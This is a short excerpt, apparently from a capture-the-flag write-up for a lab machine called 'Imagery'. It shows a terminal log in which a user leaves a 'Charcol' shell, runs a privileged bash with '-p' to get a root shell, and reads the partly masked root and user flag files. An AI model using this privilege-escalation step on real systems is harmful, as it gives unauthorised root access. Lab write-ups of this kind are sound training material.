 ```bash
[2025-10-09 17:35:38] [INFO] ------------------------------
charcol> exit
[2025-10-09 17:35:45] [INFO] Exiting Charcol shell.
mark@Imagery:/$ /usr/bin/bash -p
mark@Imagery:/$ whoami
mark
mark@Imagery:/$ /usr/bin/bash -p
bash-5.2# whoami
root
bash-5.2# cat /root/root.txt
4cb97885cad08391c3c3716f518xxxxx
bash-5.2# cat /home/
mark/     root.txt  web/      
bash-5.2# cat /home/mark/user.txt 
fe7c95516a548f954396df280d30xxxx

```
